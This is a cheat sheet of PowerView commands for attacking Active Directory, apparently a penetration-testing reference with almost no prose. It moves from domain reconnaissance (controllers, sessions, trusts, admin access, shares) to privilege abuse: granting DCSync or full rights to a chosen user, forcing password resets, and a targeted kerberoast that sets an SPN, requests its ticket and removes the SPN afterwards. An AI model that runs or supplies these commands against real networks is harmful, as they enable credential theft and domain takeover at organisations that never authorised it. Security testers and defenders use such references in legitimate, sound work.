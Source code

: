 ### Source 
https://raw.githubusercontent.com/AdrianVollmer/PowerSploit/master/Recon/PowerView.ps1  

### Get domain controller for current domain
```
Get-NetDomainController
```

### Get remote logged in user
```
Get-NetSession -ComputerName <fqdnRhost>
```

### Get object descriptions
```
Get-NetUser | select-object samaccountname,description | fl | Out-File <file>.txt
```

### Get specific user description
```
Get-NetUser -Username <user> 
```

### Get list of all domain trusts
```
Get-NetDomainTrust
```

### Get details about the current forest
```
Get-NetForest
```

### Find all machines where user has local admin rights
```
Find-LocalAdminAccess –Verbose -Domain <domain> -Computername <rhost>
```

### Show all security identifiers (SID) that can create new GPOs
```
Get-DomainObjectAcl -SearchBase "CN=Policies,CN=System,DC=<domainComponent>,DC=<domainComponent>" -ResolveGUIDs | ? { $_.ObjectAceType -eq "Group-Policy-Container" } | select ObjectDN, ActiveDirectoryRights, SecurityIdentifier | fl
```

### Get name of SID
```
ConvertFrom-SID <securityIdentifier>
```

### Show all principals that can write to GP-Link attributes
```
Get-DomainOU | Get-DomainObjectAcl -ResolveGUIDs | ? { $_.ObjectAceType -eq "GP-Link" -and $_.ActiveDirectoryRights -match "WriteProperty" } | select ObjectDN, SecurityIdentifier | fl
```

### Get computeraccounts in specific OU
```
Get-DomainComputer | ? { $_.DistinguishedName -match "<distinguishedName>" -or $_.DistinguishedName -match "OU=<ou>" } | select DnsHostName
```

### Add full permissions over a group to specific user (right = All or ResetPassword or WriteMembers)
```
Add-ObjectAcl -TargetADSprefix '<distinguishedName>' -PrincipalSamAccountName <user> -Rights <right> -Verbose
```

### Add DCSync right to a specific user
```
Add-ObjectAcl -TargetDistinguishedName 'distinguishedName' -PrincipalSamAccountName <user> -Rights DCSync -Verbose
```

### Set a new password for specific user
```
Set-DomainUserPassword -Identity <user> -AccountPassword (ConvertTo-SecureString "<password>" -AsPlainText -Force) -Verbose
```

### Check if user has SPN set (targeted kerberoast)
```
Get-DomainUser -Identity <user> | select serviceprincipalname
Get-DomainComputer -Identity <user> | select serviceprincipalname
```

### Set a new SPN
```
Set-DomainObject -Identity <userOrComputer> -Set @{serviceprincipalname='foo/bar'}
```

### Request ticket from SPN
```
Request-SPNTicket -SPN 'foo/bar'
```

### After export of tickets using mimikatz remove SPN
```
Set-DomainObject -Credential $Cred -Identity <userOrComputer> -Clear serviceprincipalname
```

### List accesible shares (without -ComputerName check all domain joined hosts)
```
Find-DomainShare -CheckShareAccess -ComputerName <rhost>
```

